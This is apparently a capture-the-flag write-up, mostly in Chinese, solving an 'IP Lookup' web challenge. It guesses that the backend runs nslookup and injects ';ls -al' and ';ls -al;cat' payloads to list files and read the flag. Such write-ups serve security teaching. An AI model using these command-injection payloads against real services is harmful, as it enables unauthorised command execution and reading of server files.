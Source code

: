 # IP Lookup

## Enter the domain name:
![image](https://user-images.githubusercontent.com/75651364/182007051-0c401733-04d2-4e70-af8d-99d345bc4886.png)

隨便輸入一個domain，會出現該domain所在IP
![image](https://user-images.githubusercontent.com/75651364/182007073-670c1033-5401-4885-b18a-9a7ec68c4baa.png)

## 思路
推測是後端以`nslookup`command拿到資訊

## exploit
直接command injection

1. `;ls -al` (結束前command，再看有什麼檔案)
![image](https://user-images.githubusercontent.com/75651364/182007132-c6e65a51-10a2-4898-b4e6-2e6a279b9d99.png)

2. `;ls -al;cat xup6vup4m31p4204.txt `
![image](https://user-images.githubusercontent.com/75651364/182007177-6a3a09ae-0de6-407e-b8e7-8e708a1129b1.png)



`SINOPAC{C0mmand_1njecti0n_i5_3asy!}`

